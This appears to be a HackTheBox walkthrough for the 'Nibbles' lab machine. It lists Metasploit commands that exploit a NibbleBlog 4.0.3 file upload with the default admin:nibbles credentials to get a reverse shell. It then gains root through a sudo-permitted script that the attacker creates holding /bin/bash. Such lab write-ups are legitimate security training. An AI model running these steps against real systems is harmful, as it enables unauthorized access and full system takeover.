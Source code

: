 ## Initial Exploit - 
***
The homepage leaks the URL to the blog:  
> curl http://10.129.84.175/

![](/home/kali/Walkthroughs/HackTheBox/nibbles/images/curl.png)

The page is running NibblesBlog v4.0.3. Metasploit has an exploit available [here](https://www.exploit-db.com/exploits/38489). Run the exploit: 

> sudo msfdb run

> use multi/http/nibbleblog_file_upload

> set rhost 10.129.84.175

> set lhost tun0 

> set lport 80

The blog is using the weak credentials **admin:nibbles**:  
> set username admin

> set password nibbles

> run

The shell returns as nibbler.

<div style="page-break-after: always;"></div>

## Privilege Escalation - 
***
Nibbler is allowed to run the script at **/home/nibbler/personal/stuff/monitor.sh** as root without a password. 
![](/home/kali/Walkthroughs/HackTheBox/nibbles/images/sudol.png)

That script and directory do not exist. Create them:  
> mkdir -p /home/nibbler/personal/stuff

> echo /bin/bash > /home/nibbler/personal/stuff/monitor.sh

Make the script executable:  
> chmod +x /home/nibbler/personal/stuff/monitor.sh

Run the script as root:  
> sudo /home/nibbler/personal/stuff/monitor.sh

<div style="page-break-after: always;"></div>

## Proof - 
***
### User:

![](/home/kali/Walkthroughs/HackTheBox/nibbles/images/user.png)

### Root:

![](/home/kali/Walkthroughs/HackTheBox/nibbles/images/root.png)